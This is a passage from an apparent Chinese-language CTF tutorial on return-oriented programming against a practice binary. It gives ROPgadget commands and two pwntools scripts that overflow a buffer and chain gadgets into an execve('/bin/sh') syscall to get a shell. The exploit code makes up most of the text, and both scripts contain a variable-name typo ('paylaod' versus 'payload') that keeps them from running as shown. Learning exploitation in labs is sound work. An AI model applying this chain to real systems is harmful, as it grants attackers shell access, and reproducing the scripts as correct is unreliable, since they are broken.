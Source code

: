 ebx应该存放想要执行的"/bin/sh"的地址，还有两个参数设置为0

所以现在需要做的就是让：

- eax=0xb
- ebx="/bin/sh"的地址
- ecx=0
- edx=0

只需要让栈顶的值是0xb然后可以通过pop eax达到目的，要用ROPgadget来查找，使用命令找到pop eax：

```shell
ROPgadget	--binary rop --only 'pop|ret' | grep 'eax'
```

类似的，通过这条命令寻找控制其它寄存器的地址，找到可以控制多个的。同时使用找到字符串在什么地方

```shell
ROPgadget	--binary rop --string '/bin/sh'
```

以及还有需要的int 0x80

```shell
ROPgadget	--binary rop --only 'int'
```

类似的exp：

```python
#!/usr/bin/env python
from pwn import *
p=process('./rop')
int_addr=0x8049421
bin_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
paylaod='a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_addr)+p32(int_addr)
p.sendline(payload)
p.interactive()
```

或者

```python
#!/usr/bin/env python
from pwn import *
p=process('./rop')
pop_eax_ret=0x80bb196
pop_other_ret=0x806eb90
int_addr=0x8049421
bin_addr=0x80be408
paylaod=flat(['a'*112,pop_eax_ret,0xb,pop_other_ret,0,0,bin_addr,int_addr])
#flat模块能将patten字符串和地址结合并且转换为字节模式
p.sendline(payload)
p.interactive()
```
